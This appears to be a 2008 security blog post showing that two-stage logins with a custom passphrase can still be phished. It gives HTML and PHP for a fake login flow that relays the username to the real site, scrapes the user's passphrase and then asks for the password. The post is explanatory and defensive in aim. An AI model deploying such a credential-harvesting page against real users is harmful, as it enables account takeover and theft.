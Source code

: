 ```yaml
---
title: How custom passphrases/pictures still don't protect against phishing
date: 2008-11-20
tag:
- security
---
```

As you probably remember, I have lots of interest in phishing techniques (I talked about one [here](/blog/2007/07/11/the-anatomy-of-a-phishing-attack-advanced-technique/), and preventing them [here](/blog/2007/07/11/the-top-17-ways-to-help-eliminate-the-phishing-threat/)).  I've noticed a new trend: a dual stage login form with a custom picture or passphrase.  Users are to gain trust in the login page because their custom configured option is displayed.  The more I started thinking about this, however, I kept seeing an issue - this still can be easily phished!  

<!--more-->

I'm going to demonstrate a method of phishing the passphrase version.  I don't want to do a picture example because it a) takes more code and b) more people have moved to that thinking it is more secure.  Lets go:

First off, all phishing starts with getting the user to a login page not at the respected domain.  So, lets just skip that step, and examine our login page.  This will be a duplicate of our real site's login page - note the reminder that they will have to verify their passphrase.

**`login.php`** @ fakedomain.com
```html
<form action="login2.php" method="post">
  <label>Username: <input name="username"></input><br></br>
  <em>Remember, you will be asked to verify your passphrase on the next page.</em>
  <br></br>
  <input type="submit" value="Login"></input>
</form>
```

Very simple login which sends it to another page - hopefully named the same as the real domain's login page.

Lets look at the page we'll be submitting to:

**`login2.php`** @ fakedomain.com
```php    
/** cutting out a lot of code - make sure its not empty, etc **/
$args = array ('username'=>$_POST['username']);
$uri = 'http://realdomain.com/login.do.php';
$opts = array(
  'http' => array(
    'method' => 'POST', 
    'header' => 'Content-Type: application/x-www-form-urlencoded', 
    'content' => http_build_query($args)
  )
);
$context = stream_context_create($opts);
$page_with_phrase = file_get_contents($uri, false, $context);

$doc = new DomDocument();
$doc->loadHTML($page_with_phrase );

$passphrase = $doc->getElementById('passphrase_node')->nodeValue;

// next login form page actually shows the 
// $passphrase phrase and asks for password
include('next_login_form.php');
```

Ok, first off, you'll see we create a nice post with our stream context creation ([detailed here](/blog/2008/11/14/posting-requests-in-php-without-curl/)) - so we basically send the username to the real domain as they had logged in.  (Depending on the target site, you might also have to send referrers, cookies, etc - but we're making it a really simple example here.)

We retrieve the page after a successful post of the username.  This content should now contain the custom passphrase somewhere.  For our example, there is a nicely named `div` or `span` with an id of `passphrase_node`.  Probably, in real life, you'd have to use a complex XPath to get the actual value.

From then on, we just include our 'second' login page which shows the passphrase, and then requests the password from the user.  From there, you can do whatever you want.

**Ok so...**
Its nice to see that people are trying to eliminate phishing - but there still is only one real solution IMHO - and that is to educate users on the address bar (or get them to install a plugin that validates the page they're on.).

